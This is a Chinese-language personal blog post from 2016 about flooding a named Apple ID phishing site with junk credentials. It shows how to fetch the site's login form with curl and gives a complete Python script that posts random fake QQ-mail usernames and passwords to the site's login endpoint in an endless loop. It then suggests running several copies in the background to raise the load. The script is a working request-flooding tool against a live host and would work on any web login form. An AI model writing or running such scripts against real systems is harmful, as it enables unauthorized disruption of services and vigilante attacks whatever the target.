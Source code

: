```yaml
---
layout:     post
title:      "POST提交表单塞爆钓鱼网站"
subtitle:   "只适用于弱智的钓鱼网站"
date:       2016-09-21
author:     "Wcq"
header-img: "img/in-post/post-python-post.jpg"
tags:
    - 
    - 
---
```



> 据说每一个猿的指尖都隐藏着改变世界的力量  LOL


### 环境
* Python 2.7.10
* curl 7.43.0 (x86_64-apple-darwin15.0) libcurl/7.43.0 SecureTransport zlib/1.2.5
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: AsynchDNS IPv6 Largefile GSS-API Kerberos SPNEGO NTLM NTLM_WB SSL libz UnixSockets

### 背景
现在的诈骗信息是越来越多了 信息安全意识稍差的人极有可能中招  
今天群里一哥们公司的老总就被[http://www.lcoud.cn.com/](http://www.lcoud.cn.com/)这个钓鱼网站钓了。。。  
为此群里大牛们决定写脚本去塞爆这个钓鱼网站(其实是无聊 找点乐子 hhhhh)
受巨神们聊天的启发 整理了一下稍加改进就有了这篇随笔

### 思路
利用 curl 获得钓鱼网站登陆界面的代码 找出关键部分(文本输入框及提交按钮)  
写一个python脚本  在 while 1 里利用 post 方式提交伪造的用户名和密码  


### 实现
1、利用 curl 获得钓鱼网站登陆界面的代码并存到 source.txt 文件中  

```scss
wcq-062821@wcqdeMacBook-Pro:~/IOSCrack/tmp
> curl http://www.lcoud.cn.com/ > source.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9623  100  9623    0     0   7336      0  0:00:01  0:00:01 --:--:--  7334
```
查看 source.txt 搜索 action得到关键代码如下：  

```scss
    <div class="main">

        <form name="form" action="/Login" method="post" target="_top">
            <div class="top"><em><img src="./index_files/yun.png" height="25"></em><span><a href="index.htm#" class="shuom"></a><a href="http://www.apple.com/cn/icloud/setup/" target="blank"><img src="./index_files/wenh.png"></a></span></div>
            <div class="login_main">
                <div class="login">
                    <div class="del">

                        <ul>
                            <li><input type="text" id="accountname" name="username" value="" errormsg="Apple ID" placeholder="Apple ID" class="l_text" autocomplete="off" style="margin-left:10px; background:none; font-family:Arial, Helvetica, sans-serif"></li>

                            <li>
                                <input type="password" id="accountpassword" name="password" value="" errormsg="Apple 密码" placeholder="Apple 密码" class="l_text" autocomplete="off" style="margin-left:10px; background:none">






                                <input class="btn" src="./index_files/btn.png" type="image" style="margin-right:10px; margin-top:6px" onClick="this.form.action='login.do';this.form.submit()">

```
对应的界面如下：  

![img](/img/in-post/post-python-post1.jpg)

由此可知 这个页面的数据是要提交到 http://www.lcoud.cn.com/Login 这个页面处理  
Apple ID 输入文本框的名字是 username ， Apple 密码 输入文本框的名字是password  
提交按钮即那个向右的箭头执行的动作是 login.do 好了 有了这些信息 我们就可以写脚本来自动提交这些东西了  

2、写 Python 脚本
新建一个 post.py 脚本文件 填入下面内容

```scss
#!/usr/bin/python

import urllib2
import urllib
import random

while 1:
    dat = random.randint(100000000,9999999999)
    tem = '%d' %dat
    usern = [tem,'@qq.com']
    mail = "".join(usern)
    print mail

    passwdint = random.randint(100000000,9999999999)
    passwd = '%d' %passwdint
    print passwd
    
    data = {'username' : mail, 'password' : passwd}
    f = urllib2.urlopen(
                    url     = 'http://www.lcoud.cn.com/login.do',
                            data    = urllib.urlencode(data)
                                    )
#print(f.read())
```
这个脚本伪造了xxxxxxxxx@qq.com 或 xxxxxxxxxx@qq.com 的 Apple ID 和  
xxxxxxxxx 或 xxxxxxxxxx 的 密码填入文本框 然后打开http://www.lcoud.cn.com/login.do 这个 url  
就是相当于按上提交按键(右箭头) 由于这里写成了死循环 只要执行这个程序不关闭 它就会一直伪造提交  

3、实验  

```scss
wcq-062821@bogon:~/IOSCrack/tmp
> python post.py
2482615300@qq.com
4783662202
4107239344@qq.com
8524584397
6160631505@qq.com
5464987127
3715364922@qq.com
3399479821
1694292525@qq.com
7180919800
```
去掉#print(f.read())这一行的#还可以看到提交后的页面的代码详情  


### 总结
这是一个十分弱智的钓鱼网站 页面仿得十分粗糙 域名也一点都不像在浏览器上连 http://都没有  
而且即使什么都不填 直接点右箭头 一样可以进入下一个界面。。。。。  
而且连保持我的登陆状态前面的框都勾不上。。。 好弱智啊！！！  
当然我们这种python post 的方式也比较弱智 效率不高 据说可以用 curl 或 lua 来实现类似功能  
有兴趣的可以试一下  
为了提升效率 我们还可以这样 运行的时候用 python post.py& 来后台运行  
多开几个就快了 比如我开了 4 个。。。  

![img](/img/in-post/post-python-post3.jpg)

下次还看到弱智钓鱼网站 无聊的话就可以用这种方法在电脑后台挂着 我相信我也坚信 挂着挂着 钓鱼网站就会变成这样  

![img](/img/in-post/post-python-post2.jpg)

2333



